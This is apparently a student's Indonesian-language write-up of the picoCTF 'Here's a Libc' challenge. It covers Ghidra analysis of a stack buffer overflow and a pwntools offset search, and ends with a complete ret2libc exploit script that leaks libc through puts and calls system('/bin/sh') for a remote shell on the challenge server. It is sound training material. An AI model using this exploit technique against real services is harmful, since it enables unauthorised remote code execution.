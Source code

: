 Write Up Here a Libc

Nama: Fachry Altair Gantari Amaludin
NIM: 2602109366

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>

Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi main, saya mengetahui bahwa dia memanggil fungsi do_stuff() yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>

Berikut adalah fungsi do_stuff():

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>

Berdasarkan decompiled code fungsi do_stuff(), ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>

Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>

Karena saya skill issue dan bingung kenapa saat saya menggunakan gdb gef tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan pwntools cyclic untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:

```from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

Note: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi system. Selain fungsi, string /bin/sh juga saya cari untuk menjalankan shell di remote server.

Saya dengan bantuan ChatGPT membuat script untuk eksploitasi.

```
from pwn import *

# Konfigurasi Binary dan Libc
binary = './vuln'  # Nama binary
libc_path = './libc.so.6'  # Nama file libc
elf = ELF(binary)
libc = ELF(libc_path)

# Alamat penting dari binary
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

# Offset dari buffer overflow
offset = 136

# Remote server
host = 'mercury.picoctf.net'
port = 49464

# Fungsi untuk memulai koneksi
def start():
    if args.REMOTE:
        return remote(host, port)
    else:
        return process(binary, env={"LD_PRELOAD": libc_path})

# Fungsi untuk leak alamat libc
def leak_libc_address(proc, func_got):
    log.info(f"Leaking {func_got} address...")
    rop = ROP(elf)
    rop.call(puts_plt, [func_got])  # Cetak alamat fungsi di GOT
    rop.call(main_addr)  # Kembali ke fungsi main untuk eksploitasi ulang
    
    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)
    leaked_address = u64(proc.recvline().strip().ljust(8, b'\x00'))
    log.success(f"Leaked {func_got} address: {hex(leaked_address)}")
    return leaked_address

# Fungsi eksploitasi untuk mendapatkan shell
def exploit(proc):
    # Leak libc puts address
    libc_puts = leak_libc_address(proc, puts_got)

    # Hitung base address libc
    libc_base = libc_puts - libc.symbols['puts']
    log.success(f"Libc base address: {hex(libc_base)}")

    # Hitung alamat "/bin/sh" dan system
    system_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

    log.info(f"System address: {hex(system_addr)}")
    log.info(f"/bin/sh address: {hex(bin_sh_addr)}")

    # ROP chain untuk mendapatkan shell
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])

    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)

    # Berikan akses interaktif
    proc.interactive()

# Main program
if __name__ == "__main__":
    context.binary = elf
    context.terminal = ['tmux', 'splitw', '-h']  # Untuk debugging jika perlu
    context.log_level = 'info'  # Setel hanya log level info atau lebih tinggi, hilangkan debug output

    # Jalankan eksploitasi
    p = start()
    exploit(p)
```








